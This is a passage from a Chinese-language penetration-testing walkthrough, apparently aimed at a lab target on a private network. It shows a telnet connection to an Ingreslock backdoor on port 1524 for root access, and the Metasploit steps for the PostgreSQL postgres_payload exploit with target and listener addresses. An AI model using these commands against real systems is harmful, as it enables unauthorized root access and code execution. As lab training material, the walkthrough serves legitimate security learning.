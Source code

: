 
漏洞介绍：Ingreslock 后门程序监听在1524端口，连接到1524端口就可以直接获得root权限，使用命令如下

```bash
telnet 192.168.23.136 1524
```

​![image](assets/image-20230408143413-upv0gr8.png)​

---

## 10、Postgres共享库代码任意执行

---

漏洞介绍：在一些默认的Linux安装的PostgreSQL，postgres服务账户可以写到/tmp目录，还有共享库，允许任意执行代码

1、现在msf搜索相关漏洞，命令如下

```bash
search postgres
```

2、使用exploit/linux/postgres/postgres_payload，命令如下

```bash
use exploit/linux/postgres/postgres_payload
```

3、设置靶机IP与本地IP

```bash
set rhosts 192.168.23.136
set lhost 192.168.23.128
```

​![image](assets/image-20230408143932-5b9iqtg.png)​

‍

---
